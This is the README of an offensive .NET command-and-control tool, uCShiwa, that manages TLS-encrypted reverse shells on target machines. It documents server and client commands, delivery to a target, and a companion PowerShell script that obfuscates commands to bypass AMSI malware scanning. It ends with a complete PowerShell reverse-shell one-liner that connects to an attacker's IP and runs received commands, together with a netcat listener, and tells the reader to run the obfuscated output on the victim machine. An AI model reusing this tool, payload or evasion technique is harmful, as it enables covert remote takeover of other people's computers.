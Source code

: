 # uCShiwa

.NET Core light C2 Unit:

- Manage multiple revershells
- Use TLS and command obfuscation
- Keep It Simple, Stupid

This tool is presented for educational purpose. i do NOT maintain it.
It was used in real security tests and in advenced penetration testing labs (2020-2022).

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## Help & Documentation

Execute it without any options to print help

## Server

```shell
Ucshiwa.exe <port> <certificate.pfx> <passwd>

<0> Server mode
<0> Port: 4444
Cipher: Aes256
Hash: Sha384
Protocol: Tls12

<0> 10.10.10.10:1234 > (Your command)
```

## ReverseShell

```shell
Ucshiwa.exe <ip> <port>

<0> Reverse Shell mode
<0> Ip: 10.10.10.10
<0> Port: 4444
CN:CN=...
ExpirDate:...
PubKey:....
```

## Mutli-Client

Several revershells can be used on the same server (IP:port): 

- Clients connect periodically
- The first connected, the first tasked.
- The `exit` command allows you to change session
- The `bg` command allows you to run command in background and change session

## Encrytion

TLS 1.2

Consider the default `cert.pfx` file as compromised (password: ucshiwa). A quick way to generate your own is the `New-SelfSignedCertificate`:

```powershell
New-SelfSignedCertificate -DnsName Ucshiwa.lan -CertStoreLocation Cert:\CurrentUser\My\  -KeyAlgorithm RSA -KeyLength 4096
certmgr.msc # export the generated certificate as password protected .pfx file 
```

## Obfuscation

This is the default behavior, feel free to adapt the source code:

- Powershell is embeded in windows/linux clients (many libs but no child process creation)
- On server side, put `Shellingan.ps1` in the same directory to automatically perform command obfuscation (AMSI bypass)

## Authentication

Certificate is manualy validated during the revershell connection

## Multi-Platform

- Windows: `dotnet publish --self-contained true`
- Linux: `dotnet publish -r linux-x64 --self-contained true`

## Delivery

Unzip it on the target machine with the `Expand-Archive` cmdlet

## To use Shellingan.ps1 as a standalone script

### Import

```powershell
. .\shellingan.ps1
```

### Options

```console
-cmd: command obfuscation
-iex: add invoke-expression
-recurse: number of obfuscation loop
```

### Exemple

From your attack machine:
```console
nc64.exe -lnvp <port>
```


```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Execute the output on the victim machine to get your reverse shell
